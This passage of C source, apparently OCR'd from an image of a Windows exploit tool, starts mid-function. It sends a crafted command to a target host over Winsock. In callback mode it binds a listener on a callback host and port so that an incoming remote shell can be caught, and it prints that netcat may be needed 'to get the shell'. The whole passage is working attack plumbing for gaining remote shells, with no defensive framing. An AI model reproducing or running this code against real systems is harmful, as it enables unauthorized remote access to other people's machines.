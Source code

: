        if(strlen(szCommand) >= sizeof(szCommand))
        {
            printf("[-] stack buffer overflow.\n");
            return;
        }

    //  printf("send size %d:%s", strlen(szCommand), szCommand);

        __try
        {
            if (WSAStartup(MAKEWORD(1,1), &wsd) != 0)
            {
                printf("[-] WSAStartup error:%d\n", WSAGetLastError());
                __leave;
            }

            s=socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            if(s == INVALID_SOCKET)
            {
                printf("[-] Create socket failed:%d",GetLastError());
                __leave;
            }

            sa.sin_family=AF_INET;
            sa.sin_port=htons((USHORT)iPort);
            sa.sin_addr.S_un.S_addr=inet_addr(ip);

            setsockopt(s,SOL_SOCKET,SO_RCVTIMEO,(char *)&timeout,sizeof(unsigned int));
            iErr = connect(s,(struct sockaddr *)&sa,sizeof(sa));
            if(iErr == SOCKET_ERROR)
            {
                printf("[-] Connect to %s:%d error:%d\n", ip, iPort, GetLastError());
                __leave;
            }
            printf("[+] Connect to %s:%d success.\n", ip, iPort);

            if(bCb)
            {
                Sleep(500);
                s2 = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);

                server.sin_family=AF_INET;
                server.sin_addr.S_un.S_addr=inet_addr(cbHost);
                //server.sin_addr.s_addr=INADDR_ANY;
                server.sin_port=htons((unsigned short)shport);

                setsockopt(s2,SOL_SOCKET,SO_RCVTIMEO,(char *)&timeout,sizeof(unsigned int));

                Reuse = 1;
                setsockopt(s2, SOL_SOCKET, SO_REUSEADDR, (char*)&Reuse, sizeof(Reuse));

                if(bind(s2,(LPSOCKADDR)&server,sizeof(server))==SOCKET_ERROR)
                {
                    printf("[-] Bind port on %s:%d error.\n", cbHost, shport);
                    printf("[-] You must run nc get the shell.\n");
                    bLocal = FALSE;
                    //closesocket(s2);
                    //__leave;
                }
                else
                {
                    printf("[+] Bind port on %s:%d success.\n", cbHost, shport);
                    listen(s2, 1);
                }
            }
